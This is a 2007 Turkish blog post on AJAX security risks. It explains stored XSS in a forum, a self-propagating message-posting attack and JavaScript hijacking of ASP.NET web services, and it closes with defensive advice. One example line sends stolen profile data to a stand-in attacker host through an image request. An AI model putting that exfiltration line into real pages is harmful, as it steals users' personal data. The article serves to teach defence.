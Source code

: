 # AJAX ve Güvenlik Sorunları 

**AJAX** artık neredeyse her web projesinde kullanılır oldu. Bazı
projelerde ufak noktalarda kendini gösteren AJAX yeni nesil projelerde
ise neredeyse tüm iş katmanına yayılmış durumda. Bu noktada maalesef
AJAX'ın getirdiği heyecanın kısmi sersemliği ile güvenlik konusunda
kaygılar unutulmuş durumda. Oysa eskiden beridir **XSS
(Cross-Site-Scripting)** bizim JavaScript tarafındaki en önemli
düşmanlarımızdan. Ne kadar ilginçtir ki AJAX'ın göbeğinde de JavaScript
bulunuyor.

**XSS yeni bir güvenlik sorunu değil ki!?**

Kesinlikle değil. Cross-Site-Scripting uzun süredir bilinen, tanınan ve
koruma yöntemleri geliştirilmiş bir sorun. Fakat **XSS**'in yaratacağı
sorunlar AJAX ile binlerce kat büyüyor. Nasıl mı oluyor? Hemen bir örnek
üzerinden gidelim. Varsayalım bir forum uygulaması programlıyorsunuz ve
kullanıcıların attıkları mesajların içeriğini kontrol etmiyorsunuz.
Ziyaretçilerden biri mesajının arasına kendi hazırlamış olduğu
JavaScript kodunu yerleştirdi ve mesajı yolladı. Mesajı direk sitede
gösterdiğinizi varsayalım (Kötü bir programcısınız :)). Söz konusu
kullanıcının gönderdiği JavaScript kodu tüm kullanıcıların
bilgisayarında çalışacaktır. Bu noktada basit bir saldırı tipi olarak
uygun JavaScript kodu ile o sayfaya giren tüm kullanıcıların başka bir
adrese yönlendirilmesinden bahsedebiliriz (**fishing**). Forumunuzda
mesajların gönderimi ve gösterimi için AJAX kullandığınızı varsayalım.
Kullandığınız AJAX kodu, yani JavaScript kodunuz tüm kullanıcılara
gidiyor ve kaynak içerisinde incelenebiliyor. Biraz önce bahsettiğimiz
"kötü ziyaretçi" sizin AJAX metodlarınızı kullanarak forumunuza mesaj
atan bir JavaScript fonksiyonu yazarak mesajına eklerse neler olur?
Mesajın gözüktüğü sayfayı açan herkes o JavaScript metodunu çalıştırmış
olur böylece bir anda forumunuzdaki her kullanıcının yüzlerce mesaj
atması gibi bir durumla karşılaşabilirsiniz. Tüm bu işlem AJAX tarafında
yapıldığı için de kimse farkına varmayacaktır.

Aynı forum uygulamamızla ilgili başka bir durumdan bahsedelim. Forum
uygulamasını programlarken kullanıcıların bilgilerini de
değiştirebilecekleri bir sayfa hazırladınız. Tüm kullanıcıları bilgileri
AJAX ile sayfaya yerleşiyor ve kaydedilebiliyor. Tabi ki tüm bu AJAX
metodlarınız foruma mesaj atılan ve mesajların gösterildiği metodlar ile
sayfada yer alıyor. Kötü kullanıcı Şerafettin :) sitenizde
kullanıcıların bilgilerini profil sayfasına yerleştiren, yani
veritabanından çeken AJAX metodlarını kullanan bir JavaScript komutu
yazarak mesajına ekleyip gönderdi. Her kullanıcı forumda gezerken
Şerafettin'in yazdığı kod söz konusu kullanıcının bilgileri alacak. Peki
sonra ne yapacak? Bu bilgisi aşağıdaki gibi klasik bir teknikle kendi
sitesine aktaracak :)

<span> (<span style="color: blue;">new</span> Image()).src = <span
style="color: rgb(163, 21, 21);">
"http://serafettin.com/bilgigeldi.php?data="</span> +
ProfilBilgisi;</span>

Gözümüzün önünde tüm kullanıcıların profil bilgileri Şerafettin'in
mesajının bulunduğu sayfaya girdikleri gibi elden gidiyor.

XSS'i engellemek, yani kullanıcıların web sitenize gönderdiği içeriği
filtrelemek için **Microsoft** tarafından **ASP.NET** geliştiricileri
için hazırlanmış olan [**Anti-Cross Site
Script**](http://www.microsoft.com/downloads/details.aspx?familyid=9a2b9c92-7ad9-496c-9a89-af08de2e5982&displaylang=en)
kütüphanesini kullanabilirsiniz.

**JavaScript Hijacking**

Bir diğer AJAX sorunlarıdan biri de sitemiz dahilindeki AJAX
metodlarının başka sitelerde de kullanılabilmesi. Eğer AJAX
metodlarınızı harici bir JavaScript dosyasına yerleştirerek sayfanıza
linklediyseniz aynı linklemeyi başka siteler de yapabilir. Farklı alan
adları arasında XMLHttpRequest objelerinin çalışmaması ile ilgili
güvenlik düzenlemeleri olmasına karşın bu durumla ilgili herhangi bir
düzenleme yapmak pek mümkün değil.

<span style="color: blue;"> \<</span><span
style="color: rgb(163, 21, 21);">script</span><span> <span
style="color: red;"> language</span><span
style="color: blue;">="javascript"</span> <span style="color: red;">
src</span><span
style="color: blue;">="http://www.deneme.com/WebService.asmx/js"\>\</</span><span
style="color: rgb(163, 21, 21);">script</span><span
style="color: blue;">\></span></span>

Yukarıdaki kodu kullanarak deneme.com sitesinde kullanılmak üzere
hazırlanmış JavaScript metodlarını herhangi bir sitede, sayfada
kullanabilirsiniz. Dikkat ederseniz özellikle örnek içerisinde
**ScriptService** özelliğine sahip bir ASP.NET web servisi kullandım.
Bizim genelde ASP.NET AJAX tarafında sayfamıza linklediğimiz harici AJAX
metodları web servislerinde yer alıyor.\

Peki bu güvenlik açığına karşı ne yapabiliriz? Herhangi birşey yapmanız
gerekmiyor :) Microsoft bu açığı öngörmüş ve HTTP GET metodlarını web
metodlarına kapatmış. Yukarıdaki kod kullanılarak yapılacak bir talep
GET metodu ile yapılacaktır, herhangi bir şekilde POST metodu ile
yapılması mümkün değil. Siz web methodlarınıza **UseHttpGet:=True**
özelliği vermediğiniz sürece herhangi bir sorun olmayacaktır.

**Sonuç**

Benim tavsiyem AJAX kullanırken özellikle veri alımında, yani
veritabanına kaydedilecek veriyi kullanıcıdan alırken kullandığınız
tekniklerde dikkatli davranmanız. Eğer **Forms Authentication**
kullanıyorsanız web servislerinizi de korumaya almanızda fayda var. Tüm
bu tekniklerin haricinde sunucu taraflı sistem yükü fazla olsa da
Session bazlı ID'ler tanımlayarak sayfanızdaki AJAX işlemlerine gerçek
zamanlı parametre olarak ekleyerek gelen taleplerin sizin sisteminizden
gelip gelmediğini de kontrol edebilirsiniz. Son olarak XSS'e karşı
korunmayı da unutmayın.\


*Bu yazi http://daron.yondem.com adresinde, 2007-4-20 tarihinde yayinlanmistir.*